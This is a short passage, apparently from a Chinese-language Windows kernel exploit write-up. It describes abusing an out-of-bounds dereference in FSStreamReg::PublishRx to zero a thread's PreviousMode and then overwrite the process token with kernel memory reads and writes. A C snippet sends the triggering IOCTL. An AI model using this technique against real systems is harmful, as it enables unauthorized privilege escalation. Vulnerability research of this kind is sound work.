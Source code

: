 [![](assets/1706146443-b930c15943a8f78ee1dc786d5297cc21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122231000-4fc83652-b938-1.png)

然后，FSStreamReg::PublishRx 将调用 ObfDereferenceObject 对从相邻对象中取出的超出边界的字段。这样再去把当前线程的 PreviousMode 地址放在那，当调用 ObfDereferenceObject 时候就会使主线程的 PreviousMode 减为 0。然后另一个线程就会调用内核地址上的 NtReadVirtualMemory 和 ntwritvirtualmemory 去替换 token 了。

```bash
void thread_sep()
{
    printf("\t[+] Loop Thread Start..\n");
    ULONG_PTR InBuf[0x20] = { 0 };
    InBuf[4] = 0x100000001;
    DeviceIoControl(cReg, IOCTL_PUBLISH_RX, InBuf, 0x100, NULL, 0, NULL, NULL);
    printf("\t\t[+] Loop thread loop finished..\n");
    SetEvent(hEvent);
}
```
